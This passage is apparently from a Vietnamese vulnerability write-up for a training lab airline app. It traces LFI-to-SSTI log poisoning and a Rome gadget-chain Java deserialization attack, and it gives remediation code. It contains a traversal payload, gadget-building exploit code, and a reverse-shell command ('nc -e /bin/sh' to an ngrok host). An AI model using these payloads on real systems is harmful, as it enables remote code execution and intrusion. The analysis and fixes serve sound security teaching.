    subgraph LFI["LFI read"]
        C1["GET /api/v1/profile/basic-info"]
        C2["CustomThemeLoader.loadFilesystemTheme"]
        C3["customThemeRoot.resolve(themeName)"]
        C4["Files.readString(resolvedThemePath)"]
    end

    subgraph Render["Optional SSTI upgrade"]
        D1["new Template(...log content...)"]
        D2["template.process(model, writer)"]
        D3["Marker output or Freemarker execution"]
    end

    A1 --> A2 --> A3
    B1 --> B2 --> B3 --> C1
    C1 --> C2 --> C3 --> C4
    A3 --> C4 --> D1 --> D2 --> D3
```

***

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

Hướng sink -> source của LFI bắt đầu từ các dangerous function đọc file và xử lý path:

| Nhóm dangerous function/config | Pattern fuzz trong code                  | Candidate tìm thấy                                 | Kết luận                              |
| ------------------------------ | ---------------------------------------- | -------------------------------------------------- | ------------------------------------- |
| File read                      | `Files.readString`, `Files.readAllBytes` | `CustomThemeLoader.loadFilesystemTheme(...)`       | LFI sink                              |
| Path join                      | `Path.resolve`, `Paths.get`              | `customThemeRoot.resolve(themeName)`               | Path phụ thuộc `themeName`            |
| Path filter yếu                | `Pattern.compile`, `../`                 | `OBVIOUS_PARENT_TRAVERSAL`                         | Miss `..//` bypass                    |
| Log source                     | `server.tomcat.accesslog.*`              | `application.properties` bật access log `combined` | Có file log chứa user-controlled data |

### 3.2. LFI sink trong `CustomThemeLoader`

```java
// src/main/java/org/example/util/CustomThemeLoader.java
Path resolvedThemePath = customThemeRoot.resolve(themeName);
String templateSource = Files.readString(resolvedThemePath, StandardCharsets.UTF_8);
return renderTemplateSource(templateSource, model);
```

Filter path hiện tại:

```java
private static final Pattern OBVIOUS_PARENT_TRAVERSAL = Pattern.compile("(^|/)\\.\\./(?!/)");
```

Vì regex này chỉ bắt parent traversal có một slash sau `..`, payload dạng `..//` không bị match, trong khi filesystem vẫn hiểu repeated slash là separator hợp lệ.

### 3.3. Truy ngược về log source

Access log được bật trong config:

```properties
server.tomcat.basedir=${SERVER_TOMCAT_BASEDIR:.}
server.tomcat.accesslog.enabled=${SERVER_TOMCAT_ACCESSLOG_ENABLED:true}
server.tomcat.accesslog.directory=${SERVER_TOMCAT_ACCESSLOG_DIRECTORY:logs}
server.tomcat.accesslog.prefix=${SERVER_TOMCAT_ACCESSLOG_PREFIX:access}
server.tomcat.accesslog.suffix=${SERVER_TOMCAT_ACCESSLOG_SUFFIX:.log}
server.tomcat.accesslog.file-date-format=${SERVER_TOMCAT_ACCESSLOG_FILE_DATE_FORMAT:}
server.tomcat.accesslog.pattern=${SERVER_TOMCAT_ACCESSLOG_PATTERN:combined}
```

`combined` access log ghi các vùng attacker thường kiểm soát được như request line, Referer, User-Agent. Ví dụ có thể chèn User-Agent chứa Freemarker expression:

```text
"GET /api/v1/profile/basic-info HTTP/1.1" 200 ... "<#assign classloader=profileTheme.class.protectionDomain.classLoader>..."
```

Điểm quan trọng: log poisoning là source content, còn `profileTheme` là source selector. Hai source này gặp nhau tại `Files.readString(...)`.


Trace sink -> source:

```mermaid
flowchart RL
    S1["Files.readString(resolvedThemePath)"]
    S2["resolvedThemePath = customThemeRoot.resolve(themeName)"]
    S3["themeName passes weak OBVIOUS_PARENT_TRAVERSAL"]
    S4["themeName = user.profileTheme"]
    S5["PUT /api/v1/user JSON profileTheme"]
    L1["logs/access.log"]
    L2["Tomcat accesslog combined"]
    L3["HTTP User-Agent / Referer / request line"]

    S1 --> S2 --> S3 --> S4 --> S5
    S1 --> L1 --> L2 --> L3
```


***

## 4. Source -> Sink

### 4.1. Detect riêng LFI bằng marker trong log

Luồng detect LFI không cần command execution:

```mermaid
sequenceDiagram
    actor Attacker
    participant AnyAPI as Any logged HTTP endpoint
    participant Log as logs/access.log
    participant UserAPI as PUT /api/v1/user
    participant Profile as GET /api/v1/profile/basic-info
    participant Loader as CustomThemeLoader
    participant Browser as Response HTML

    Attacker->>AnyAPI: Request with User-Agent marker KTV-LFI-MARKER
    AnyAPI->>Log: Tomcat writes combined access log
    Attacker->>UserAPI: Persist profileTheme = ..//..//logs/access.log
    Attacker->>Profile: Trigger profile render
    Profile->>Loader: loadProfileTheme(stored profileTheme, model)
    Loader->>Log: Files.readString(log path)
    Loader-->>Profile: Log content rendered as template text
    Profile-->>Browser: Response contains KTV-LFI-MARKER
```

Detect checklist:

| Step | Expected evidence |
|---|---|
| Poison log | `logs/access.log` có marker trong User-Agent/Referer |
| Persist selector | `USER.PROFILE_THEME` chứa traversal path `..//..//logs/access.log` |
| Trigger profile | `GET /api/v1/profile/basic-info` trả HTML có marker |
| Kết luận | LFI Log Poisoning đã xảy ra dù chưa dùng SSTI |

### 4.2. Source selector path traversal

Với `customThemeRoot = data/custom_themes`, path đến log mặc định là:

```text
..//..//logs/access.log
```

Giải thích:

| Segment | Ý nghĩa |
|---|---|
| `data/custom_themes` | Root custom theme |
| `..//` thứ nhất | Thoát về `data` |
| `..//` thứ hai | Thoát về project root |
| `logs/access.log` | File log mặc định của Tomcat |

Flow:

```mermaid
flowchart TD
    A["profileTheme = '..//..//logs/access.log'"]
    B["rejectRelativeParentPath(...)"]
    C{"Regex sees '../' with single slash?"}
    D["Bypass because payload uses '..//'"]
    E["customThemeRoot.resolve(themeName)"]
    F["Filesystem resolves parent directories"]
    G["logs/access.log"]
    H["Files.readString(...)"]

    A --> B --> C
    C -->|No| D --> E --> F --> G --> H
```

### 4.3. Kết hợp LFI Log Poisoning với SSTI

Sau khi LFI đọc được log, cùng content đó được đưa tiếp vào Freemarker:

```java
String templateSource = Files.readString(resolvedThemePath, StandardCharsets.UTF_8);
return renderTemplateSource(templateSource, model);
```

Vì vậy nếu log marker là Freemarker expression, chain sẽ nâng cấp thành SSTI:

```mermaid
sequenceDiagram
    actor Attacker
    participant AnyAPI as Logged request
    participant Log as logs/access.log
    participant Profile as GET /api/v1/profile/basic-info
    participant FTL as Freemarker
    participant Obj as profileTheme object
    participant QR as QRCodeHelper

    Attacker->>AnyAPI: User-Agent contains Freemarker payload
    AnyAPI->>Log: Payload persisted into access.log
    Attacker->>Profile: Trigger with stored profileTheme traversal
    Profile->>Log: Files.readString(access.log)
    Profile->>FTL: new Template(...log content...)
    FTL->>Obj: Optional object-chain via profileTheme.class...
    FTL->>QR: Optional dev-supplied QRCodeHelper?new()
```

Kết luận kết hợp:

| Phase   | Vulnerability detect riêng | Evidence                                               |
| ------- | -------------------------- | ------------------------------------------------------ |
| Phase 1 | Log Poisoning              | Attacker marker nằm trong `logs/access.log`            |
| Phase 2 | LFI                        | Response profile render lại marker từ log              |
| Phase 3 | SSTI upgrade               | Freemarker expression trong log được thực thi          |
| Phase 4 | Hidden command sink        | `QRCodeHelper?new()` hoặc object-chain tạo side effect |

***

## 5. Fix guidance đặt cạnh sink

### 5.1. Fix path traversal/LFI

Normalize path và bắt buộc nằm trong custom theme root:

```java
// File: src/main/java/org/example/util/CustomThemeLoader.java
Path root = customThemeRoot.toRealPath();
Path candidate = root.resolve(themeName).normalize();
if (!candidate.startsWith(root) || !candidate.getFileName().toString().endsWith(".ftl")) {
    throw new IllegalArgumentException("Invalid theme path");
}
```

Không dùng regex tự chế để quyết định path an toàn. Nếu vẫn cần regex, chỉ dùng như lớp phụ:

```java
// File: src/main/java/org/example/util/CustomThemeLoader.java
private static final Pattern SAFE_THEME_NAME =
        Pattern.compile("^[A-Za-z0-9_-]+\\.ftl$");
```

### 5.2. Fix log poisoning

Không để access log nằm trong vùng application có thể đọc qua theme loader:

```properties
# File: src/main/resources/application.properties
server.tomcat.accesslog.directory=/var/log/ktv-airline
server.tomcat.accesslog.pattern=%h %l %u %t "%m %U %H" %s %b
```

Nguyên tắc:

| Fix                                        | Lý do                                  |
| ------------------------------------------ | -------------------------------------- |
| Log ở ngoài project/theme root             | LFI trong app khó đọc được log         |
| Không log User-Agent/Referer nếu không cần | Giảm nguồn attacker-controlled content |
| Không render log bằng template engine      | Chặn log poisoning nâng cấp thành SSTI |
| Rotate/permission log chặt                 | Giảm cửa sổ khai thác và rò rỉ         |

### 5.3. Fix điểm giao với SSTI

Ngay cả khi đọc nhầm file, không được compile nội dung file bất kỳ thành Freemarker:

```java
// File: src/main/java/org/example/util/CustomThemeLoader.java
String templateSource = Files.readString(resolvedThemePath, StandardCharsets.UTF_8);
return "<pre>" + escapeHtml(templateSource) + "</pre>";
```

Hoặc tốt nhất: chỉ render classpath templates trong allowlist, không render filesystem content.

***

## 6. Tổng kết LFI Log Poisoning

LFI Log Poisoning có hai source độc lập:

1. **Content source:** HTTP request data được Tomcat ghi vào `logs/access.log`.
2. **Selector source:** `PUT /api/v1/user` ghi `profileTheme`, rồi profile render dùng selector này để đọc file.

Detect riêng LFI:

```text
Poison marker vào access log
-> persist profileTheme = ..//..//logs/access.log
-> GET /api/v1/profile/basic-info
-> response chứa marker
```

Detect kết hợp SSTI:

```text
Poison Freemarker payload vào access log
-> LFI đọc access.log
-> new Template(...log content...)
-> object-chain hoặc dev-supplied helper được thực thi
```


# Deserialize 

***

## 1. Kết luận nhanh cho Insecure Deserialization

| Thuộc tính | Giá trị |
|---|---|
| Entry point | `POST /api/v1/booking/draft/import` |
| Quyền truy cập | `ROLE_USER` hoặc `ROLE_ADMIN` |
| Content-Type | `application/octet-stream` |
| Frontend source | Upload file `.ser` ở `BookingHistory.jsx` |
| Controller source | `@RequestBody byte[] draftBytes` |
| Sink chính | `ObjectInputStream.readObject()` |
| Gadget chain | Rome `1.0` - `com.sun.syndication.feed.impl.ObjectBean` |
| Trigger container | `HashMap` key rehash trong quá trình deserialize |
| Getter bị kích hoạt | `BookingRequest.getQrCode()` |
| Hidden final sink | `QRCodeHelper.renderQrCode(...)` -> `/bin/sh -c` |
| Lý do guard business không chặn được | `/draft/import` nhận raw bytes, không đi qua `rejectUnsafeBusinessPromotionCode(...)` |

> **Nhận định:** lỗ hổng Deserialize nằm ở chức năng import booking draft. Endpoint nhận raw serialized bytes rồi gọi `ObjectInputStream.readObject()` trước mọi kiểm tra kiểu dữ liệu. Rome `ObjectBean` được dùng vì gadget này có thể ép JavaBean gọi getter của object đích. Trong WebLab, getter nguy hiểm là `BookingRequest.getQrCode()`, vì getter này tạo QR và đi tiếp vào `QRCodeHelper`, nơi có command sink ẩn.

***

## 2. Bản đồ flow tổng quan

```mermaid
flowchart TD
    subgraph Frontend["Frontend"]
        A1["BookingHistory.jsx"]
        A2["Upload .ser draft file"]
        A3["importBookingDraft(file)"]
    end

    subgraph API["API layer"]
        B1["POST /api/v1/booking/draft/import"]
        B2["@RequestBody byte[] draftBytes"]
        B3["Authentication -> userId"]
    end

    subgraph Service["Service layer"]
        C1["BookingServiceImpl.importDraft(draftBytes, userId)"]
        C2["new ObjectInputStream(new ByteArrayInputStream(draftBytes))"]
        C3(("input.readObject()"))
        C4["type check: importedDraft instanceof BookingRequest"]
    end

    subgraph Gadget["Rome gadget chain"]
        D1["HashMap.readObject()"]
        D2["Rehash serialized key"]
        D3["ObjectBean.hashCode()"]
        D4["EqualsBean.beanHashCode()"]
        D5["inner ObjectBean.toString()"]
        D6["ToStringBean invokes JavaBean getters"]
    end

    subgraph Impact["Application impact"]
        E1["BookingRequest.getQrCode()"]
        E2["buildQrCodeContent() includes promotionCode"]
        E3["QRCodeHelper.renderQrCode(qrContent)"]
        E4["Runtime.exec(['/bin/sh','-c',command])"]
    end

    A1 --> A2 --> A3 --> B1 --> B2 --> B3 --> C1 --> C2 --> C3
    C3 --> D1 --> D2 --> D3 --> D4 --> D5 --> D6 --> E1 --> E2 --> E3 --> E4
    C3 --> C4
```

***

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

Với Deserialize, các handle quan trọng là native serialization APIs, raw byte endpoints, **các họ dependency có gadget chain đã biết**, collection trigger, JavaBean introspection và side-effect getters.

| Nhóm dangerous function / signal | Pattern fuzz trong code                                                                                                                                                                     | Candidate tìm thấy                                         | Kết luận                                                                                                              |
| -------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------- |
| Native Java deserialize          | `ObjectInputStream`, `readObject`, `readUnshared`                                                                                                                                           | `BookingServiceImpl.importDraft(...)`                      | Sink chính                                                                                                            |
| Native Java serialize            | `ObjectOutputStream`, `writeObject`                                                                                                                                                         | `BookingServiceImpl.saveDraft(...)`                        | Business feature tạo `.ser` hợp lệ                                                                                    |
| Raw byte source                  | `application/octet-stream`, `byte[]`, `.ser`                                                                                                                                                | `BookingController.importDraft(...)`, `BookingHistory.jsx` | Source không qua JSON validation                                                                                      |
| Serializable payload             | `implements Serializable`, `serialVersionUID`                                                                                                                                               | `BookingRequest implements Serializable`                   | Object business có thể nằm trong graph                                                                                |
| Vulnerable gadget dependencies   | `commons-collections`, `rome`, `groovy`, `commons-beanutils`, `c3p0`, `xalan`, `spring-beans`, `aspectjweaver`, `clojure`, `bsh`, `javassist` trong `pom.xml`, `dependency:tree`, classpath | `rome:rome:1.0` trong `pom.xml`                            | Có dependency thuộc nhóm hay xuất hiện trong gadget chain; flow này chọn Rome vì có getter-introspection path phù hợp |
| Rome gadget classes              | `ObjectBean`, `EqualsBean`, `ToStringBean`, `BeanIntrospector`, `PropertyDescriptor`, `getReadMethod`, `Method.invoke`                                                                      | `com.sun.syndication.feed.impl.ObjectBean` từ Rome 1.0     | Rome có thể gọi JavaBean getter của object đích                                                                       |
| Getter side effect               | `get[A-Z].*`                                                                                                                                                                                | `BookingRequest.getQrCode()`                               | Getter không thuần, có side effect                                                                                    |
| Hidden command sink              | `Runtime.exec`, `ProcessBuilder`, `/bin/sh -c`, `exec(`                                                                                                                                     | `QRCodeHelper.renderQrCode(...)`                           | Impact cuối của chain                                                                                                 |

### 3.2. Sink `ObjectInputStream.readObject()`

Sink chính:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
Object importedDraft;
try (ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(draftBytes))) {
    importedDraft = input.readObject();
}
```

Điểm nguy hiểm:

| Dòng xử lý | Ý nghĩa bảo mật |
|---|---|
| `new ObjectInputStream(...)` | Khởi tạo native Java deserializer trên bytes do client upload |
| `input.readObject()` | Rehydrate object graph và có thể gọi `readObject`, `hashCode`, `equals`, `toString` trong gadget |
| `importedDraft instanceof BookingRequest` nằm sau sink | Type-check xảy ra quá muộn, side effect đã chạy trong lúc deserialize |

`instanceof` phía sau không bảo vệ được:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
if (importedDraft instanceof BookingRequest bookingRequest) {
    result.put("quote", quote(bookingRequest, userId));
}
```

Với payload Rome, object root có thể là `HashMap`, không phải `BookingRequest`. Service vẫn có thể trả `draftType = java.util.HashMap`, nhưng gadget side effect đã xảy ra trước khi nhánh `instanceof` được xét.

### 3.3. Truy ngược source từ sink

Controller nhận raw bytes:

```java
// File: src/main/java/org/example/controller/BookingController.java
@PostMapping(value = "/draft/import", consumes = MediaType.APPLICATION_OCTET_STREAM_VALUE)
public ResponseEntity<?> importDraft(@RequestBody byte[] draftBytes, Authentication authentication) {
    Integer userId = getAuthenticatedUserId(authentication);
    return ResponseEntity.ok().body(bookingService.importDraft(draftBytes, userId));
}
```

Frontend gửi file `.ser`:

```javascript
// File: frontend/src/services/api.js
export const importBookingDraft = (file) => api.post('/booking/draft/import', file, {
  headers: {
    'Content-Type': 'application/octet-stream',
  },
});
```

UI import draft:

```jsx
// File: frontend/src/pages/BookingHistory.jsx
<input
  type="file"
  accept=".ser,application/octet-stream"
  className="hidden"
  onChange={handleImportDraft}
/>
```

Trace sink -> source:

```mermaid
flowchart RL
    S1["ObjectInputStream.readObject()"]
    S2["new ByteArrayInputStream(draftBytes)"]
    S3["BookingServiceImpl.importDraft(draftBytes, userId)"]
    S4["BookingController.importDraft(@RequestBody byte[])"]
    S5["POST /api/v1/booking/draft/import"]
    S6["frontend importBookingDraft(file)"]
    S7["User uploads .ser file"]

    S1 --> S2 --> S3 --> S4 --> S5 --> S6 --> S7
```

### 3.4. Vì sao dùng được Rome chain

Repo có dependency Rome `1.0`:

```xml
<!-- File: pom.xml -->
<dependency>
    <groupId>rome</groupId>
    <artifactId>rome</artifactId>
    <version>1.0</version>
</dependency>
```

Rome `ObjectBean` là gadget phù hợp vì nó wrap một object rồi implement `hashCode()`, `equals()` và `toString()` bằng cơ chế JavaBean introspection.

Cấu trúc quan trọng trong Rome:

```java
// File: dependency rome:rome:1.0 - com.sun.syndication.feed.impl.ObjectBean
public int hashCode() {
    return _equalsBean.beanHashCode();
}

public String toString() {
    return _toStringBean.toString();
}
```

`EqualsBean.beanHashCode()` gọi `toString()` của object đang được wrap:

```java
// File: dependency rome:rome:1.0 - com.sun.syndication.feed.impl.EqualsBean
public int beanHashCode() {
    return _obj.toString().hashCode();
}
```

`ToStringBean.toString()` introspect JavaBean properties rồi gọi read method/getter:

```java
// File: dependency rome:rome:1.0 - com.sun.syndication.feed.impl.ToStringBean
PropertyDescriptor[] descriptors = BeanIntrospector.getPropertyDescriptors(_beanClass);
Method readMethod = descriptor.getReadMethod();
Object value = readMethod.invoke(_obj, NO_PARAMS);
```

Vì `BookingRequest` có getter `getQrCode()`, JavaBean introspection xem đây là property `qrCode`:

```java
// File: src/main/java/org/example/payload/BookingRequest.java
@JsonIgnore
public String getQrCode() {
    return new QRCodeHelper().renderQrCode(buildQrCodeContent());
}
```

Payload field được dùng để dựng QR content:

```java
// File: src/main/java/org/example/payload/BookingRequest.java
private String buildQrCodeContent() {
    String promotionPart = promotionCode == null || promotionCode.isBlank()
            ? "NO_PROMOTION"
            : promotionCode.trim();
    return orderPart + "+" + transactionPart + "+" + promotionPart;
}
```

Trong đó, `QRCodeHelper().renderQrCode()` là command sink -> có thể chèn shell command qua promotionCode.

### 3.5. Vì sao payload dùng `HashMap` và double `ObjectBean`

Payload để tạo chain như sau:

```java
// File: Payload/ModernRomePayloadGenerator.java
BookingRequest bookingRequest = new BookingRequest();
bookingRequest.setTransactionIds(Collections.singletonList(transactionId));
bookingRequest.setPromotionCode("; nc -e /bin/sh " + host + " " + port + " #");

ObjectBean innerObjectBean = new ObjectBean(BookingRequest.class, bookingRequest);
ObjectBean outerObjectBean = new ObjectBean(ObjectBean.class, innerObjectBean);

HashMap<Object, Object> payload = new HashMap<>();
payload.put("placeholder", "value");
replaceFirstHashMapKey(payload, outerObjectBean);
```

Lý do từng lớp:

| Thành phần                       | Vai trò                                                                     |
| -------------------------------- | --------------------------------------------------------------------------- |
| `HashMap`                        | Khi deserialize, `HashMap.readObject()` rebuild bucket và tính hash của key |
| `outerObjectBean` làm key        | Khi HashMap tính hash, gọi `outerObjectBean.hashCode()`                     |
| `outerObjectBean.hashCode()`     | Vào `EqualsBean.beanHashCode()` rồi gọi `innerObjectBean.toString()`        |
| `innerObjectBean.toString()`     | Vào `ToStringBean`, introspect `BookingRequest`                             |
| `BookingRequest.getQrCode()`     | Getter bị gọi trong quá trình introspect                                    |
| `QRCodeHelper.renderQrCode(...)` | Tạo side effect qua command sink                                            |

Double `ObjectBean` là điểm quan trọng:

```text
Nếu chỉ dùng ObjectBean(BookingRequest.class, bookingRequest) làm HashMap key:
hashCode() -> bookingRequest.toString().hashCode()
=> thường chỉ gọi Object.toString(), không gọi getter.

Khi bọc thêm outer ObjectBean:
outer.hashCode() -> inner.toString()
inner.toString() -> ToStringBean introspection -> BookingRequest.getQrCode()
=> getter side effect được kích hoạt.
```

`replaceFirstHashMapKey(...)` dùng reflection để thay key sau khi map đã tạo:

```java
// File: Payload/ModernRomePayloadGenerator.java
Field tableField = HashMap.class.getDeclaredField("table");
tableField.setAccessible(true);
Object[] table = (Object[]) tableField.get(map);

Field keyField = node.getClass().getDeclaredField("key");
keyField.setAccessible(true);
keyField.set(node, newKey);
```

Lý do phải thay key bằng reflection:

| Nếu `payload.put(outerObjectBean, value)` trực tiếp | `HashMap.put(...)` sẽ gọi `hashCode()` ngay lúc generate payload, làm chain nổ trên máy attacker |
|---|---|
| Nếu put placeholder rồi swap key | Tránh trigger trong generator; chỉ trigger khi target deserialize và rehash |

Trên Java mới, script phải mở module `java.util` để reflection vào `HashMap.table`:

```bash
# File: Payload/gen-modern-rome-payload.sh
java --add-opens java.base/java.util=ALL-UNNAMED \
  -cp "$GENERATOR_CLASSES:$PROJECT_CP" \
  ModernRomePayloadGenerator "$HOST" "$PORT" "$OUTPUT" "$TRANSACTION_ID"
```

### 3.6. Vì sao không dùng chuỗi Rome gốc trên Java 17 của WebLab

Chuỗi Rome gốc kiểu ysoserial thường dùng Rome `ObjectBean` làm trigger, nhưng object đích hay được wrap là JDK internal `TemplatesImpl`. Mục tiêu của chuỗi đó là ép JavaBean getter như `getOutputProperties()` chạy, từ đó đi vào `TemplatesImpl.newTransformer()` và load bytecode độc hại.

Shape rút gọn:

```text
HashMap.readObject()
-> ObjectBean.hashCode()
-> EqualsBean.beanHashCode()
-> inner ObjectBean.toString()
-> ToStringBean JavaBean introspection
-> TemplatesImpl.getOutputProperties()
-> TemplatesImpl.newTransformer()
-> load translet bytecode
```

Trên WebLab này không chọn chuỗi gốc vì project chạy Java 17:

```xml
<!-- File: pom.xml -->
<java.version>17</java.version>
<maven.compiler.release>${java.version}</maven.compiler.release>
```

Vấn đề của Rome gốc trên Java 17:

| Điểm phụ thuộc của Rome gốc                                  | Vì sao vướng trên Java 17                                                                            |
| ------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------- |
| `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` | Đây là JDK internal class trong module `java.xml`, không phải API public ổn định                     |
| Ghi private fields như `_bytecodes`, `_name`, `_tfactory`    | Strong encapsulation chặn reflective access nếu không có `--add-opens java.xml/...`                  |
| Gọi internal Xalan/translet classes                          | Có thể vướng `IllegalAccessError`/`InaccessibleObjectException` khi module không export/open package |
| Cần option mở module trên target JVM                         | Attacker không kiểm soát startup flags của server WebLab                                             |

Flag này không mở `java.xml` trên JVM server khi server deserialize payload. Vì vậy nó không giải quyết được vấn đề của Rome gốc dựa vào `TemplatesImpl`.

WebLab dùng Rome theo hướng application-specific thay vì Rome gốc:

| Tiêu chí | Rome gốc / ysoserial-style | WebLab Modern Rome chain |
|---|---|---|
| Object đích | `TemplatesImpl` internal JDK class | `org.example.payload.BookingRequest` app class |
| Cách tạo impact | Load bytecode qua Xalan translet | Gọi getter app có side effect |
| Phụ thuộc module Java 17 | Có, cần mở `java.xml` internal package | Không cần mở module trên target |
| Getter được gọi | `getOutputProperties()` | `getQrCode()` |
| Sink cuối | `TemplatesImpl.newTransformer()` | `QRCodeHelper.renderQrCode(...)` |

Kết luận: Rome vẫn dùng được làm **getter trigger**, nhưng không dùng chuỗi Rome gốc vì Java 17 khóa đường `TemplatesImpl`. Chain trong WebLab thay `TemplatesImpl` bằng object business `BookingRequest`, tận dụng getter `getQrCode()` vốn đã gọi QR helper.

***

## 4. Source -> Sink

### 4.1. Normal draft source -> sink

Luồng nghiệp vụ hợp lệ:

```mermaid
sequenceDiagram
    actor User
    participant FE as FlightConfirm.jsx
    participant SaveAPI as POST /api/v1/booking/draft/save
    participant Service as BookingServiceImpl
    participant OOS as ObjectOutputStream
    participant File as booking-draft.ser
    participant ImportAPI as POST /api/v1/booking/draft/import
    participant OIS as ObjectInputStream

    User->>FE: Save booking draft
    FE->>SaveAPI: JSON BookingRequest
    SaveAPI->>Service: saveDraft(request)
    Service->>OOS: writeObject(request)
    OOS-->>File: booking-draft.ser
    User->>ImportAPI: Upload .ser draft
    ImportAPI->>Service: importDraft(draftBytes,userId)
    Service->>OIS: readObject()
    OIS-->>Service: BookingRequest object
```

Luồng này cho thấy vì sao feature tồn tại: app chủ động xuất `.ser` rồi nhập lại. Vấn đề là import endpoint tin mọi `.ser` client upload, không xác thực nguồn của draft file và không filter class trước khi `readObject()`.

### 4.2. Attacker source -> Rome gadget -> getter side effect

```mermaid
sequenceDiagram
    actor Attacker
    participant Gen as ModernRomePayloadGenerator
    participant Payload as payload.ser
    participant Import as POST /api/v1/booking/draft/import
    participant OIS as ObjectInputStream
    participant HM as HashMap
    participant Outer as outer ObjectBean
    participant Inner as inner ObjectBean
    participant Req as BookingRequest
    participant QR as QRCodeHelper
    participant Shell as /bin/sh -c

    Attacker->>Gen: Build BookingRequest with promotionCode payload
    Gen->>Gen: inner = ObjectBean(BookingRequest.class, bookingRequest)
    Gen->>Gen: outer = ObjectBean(ObjectBean.class, inner)
    Gen->>Gen: Replace HashMap key with outer ObjectBean
    Gen-->>Payload: serialized HashMap
    Attacker->>Import: Upload payload.ser
    Import->>OIS: readObject()
    OIS->>HM: HashMap.readObject()
    HM->>Outer: hashCode()
    Outer->>Inner: _obj.toString()
    Inner->>Req: ToStringBean invokes getQrCode()
    Req->>QR: renderQrCode(buildQrCodeContent())
    QR->>Shell: qrencode command with promotionCode
```

Key point:

| Step | Tại sao chain chạy? |
|---|---|
| `ObjectInputStream.readObject()` | Java deserialize tự gọi logic của object graph |
| `HashMap.readObject()` | HashMap phải rebuild bucket nên tính hash key |
| `ObjectBean.hashCode()` | Rome implement hash bằng `EqualsBean.beanHashCode()` |
| `EqualsBean.beanHashCode()` | Gọi `_obj.toString().hashCode()` |
| `inner ObjectBean.toString()` | Rome `ToStringBean` gọi JavaBean getters |
| `BookingRequest.getQrCode()` | Getter có side effect tạo QR |
| `QRCodeHelper` | Ghép input vào shell command |

### 4.3. Detect signals

| Signal                                                                    | Ý nghĩa                                                    |
| ------------------------------------------------------------------------- | ---------------------------------------------------------- |
| Response trả `status = DRAFT_IMPORTED` và `draftType = java.util.HashMap` | Root object đã deserialize, dù không phải `BookingRequest` |
| Reverse/OOB callback từ payload                                           | Getter -> QRCodeHelper -> shell side effect đã chạy        |
| Delay khi payload dùng `sleep`                                            | Time-based signal cho hidden sink                          |
| File marker được tạo trong container                                      | Side effect command chạy thành công                        |
| Server trả lỗi import nhưng side effect vẫn có                            | Gadget có thể chạy trước khi có exception                  |

Ví dụ chạy payload generator:

```bash
# File: Payload/gen-modern-rome-payload.sh
./Payload/gen-modern-rome-payload.sh <port> 0.tcp.ap.ngrok.io <transactionId> [payload.ser]
```

Khi chạy thành công, generator in ra QR content sẽ đi vào command sink:

```text
Command content: <transactionId>+; nc -e /bin/sh 0.tcp.ap.ngrok.io <port> #
```

***

## 5. Fix guidance đặt cạnh sink

### 5.1. Thay native Java serialization bằng JSON draft

Không xuất/nhập `.ser` cho browser. Draft nên là JSON DTO có schema rõ ràng:

```java
// File: src/main/java/org/example/controller/BookingController.java
@PostMapping(value = "/draft/import", consumes = MediaType.APPLICATION_JSON_VALUE)
public ResponseEntity<?> importDraft(@Valid @RequestBody BookingRequest draft,
                                     Authentication authentication) {
    Integer userId = getAuthenticatedUserId(authentication);
    rejectUnsafeBusinessPromotionCode(draft);
    return ResponseEntity.ok().body(bookingService.quote(draft, userId));
}
```

Service không dùng `ObjectInputStream`:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
public Map<String, Object> importDraft(BookingRequest draft, Integer userId) {
    Map<String, Object> result = new LinkedHashMap<>();
    result.put("status", "DRAFT_IMPORTED");
    result.put("draftType", BookingRequest.class.getName());
    result.put("quote", quote(draft, userId));
    return result;
}
```

### 5.2. Nếu bắt buộc giữ native serialization, đặt `ObjectInputFilter` trước `readObject()`

Filter phải set trước khi gọi `readObject()`:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
try (ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(draftBytes))) {
    ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
            "maxbytes=8192;maxdepth=8;"
                    + "org.example.payload.BookingRequest;"
                    + "java.util.ArrayList;java.util.Collections$SingletonList;"
                    + "java.lang.Integer;java.lang.String;!*");
    input.setObjectInputFilter(filter);

    Object importedDraft = input.readObject();
    if (!(importedDraft instanceof BookingRequest bookingRequest)) {
        throw new IllegalArgumentException("Invalid booking draft type");
    }
}
```

### 5.3. Làm getter side-effect free

Không tạo QR trong getter. Getter có thể bị gọi bởi Jackson, Freemarker, JavaBeans, Rome hoặc debugger.

```java
// File: src/main/java/org/example/payload/BookingRequest.java
@JsonIgnore
public String buildQrCodeContentForService() {
    return buildQrCodeContent();
}
```

QR phải được tạo ở service sau validation:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
resolveBookingTransactions(request);
String qrContent = request.buildQrCodeContentForService();
String qrCode = qrCodeService.renderValidatedQrCode(qrContent);
```

### 5.4. Validate draft sau deserialize và trước business flow

Ngay cả sau khi đổi sang JSON hoặc đặt filter, business fields vẫn phải validate lại:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
private void validateImportedDraft(BookingRequest request) {
    if (request == null || request.getTransactionIds() == null || request.getTransactionIds().isEmpty()) {
        throw new IllegalArgumentException("transactionIds is required");
    }
    if (request.getPromotionCode() != null
            && !SAFE_BUSINESS_PROMOTION_CODE.matcher(request.getPromotionCode()).matches()) {
        throw new IllegalArgumentException("Invalid promotion code");
    }
}
```

### 5.5. Làm sạch Dependency

Nếu Rome không còn dùng cho tính năng business, gỡ dependency gadget khỏi classpath:

```xml
<!-- File: pom.xml -->
<!-- Remove unused gadget-prone dependency if the application does not need RSS/Atom Rome APIs. -->
<!--
<dependency>
    <groupId>rome</groupId>
    <artifactId>rome</artifactId>
    <version>1.0</version>
</dependency>
-->
```

***

## 6. Tổng kết Deserialize

Deserialize flow cần được ghi nhận là lỗ hổng riêng:

```text
POST /api/v1/booking/draft/import
-> raw byte[] draftBytes
-> ObjectInputStream.readObject()
-> HashMap.readObject() rehash key
-> Rome outer ObjectBean.hashCode()
-> inner ObjectBean.toString()
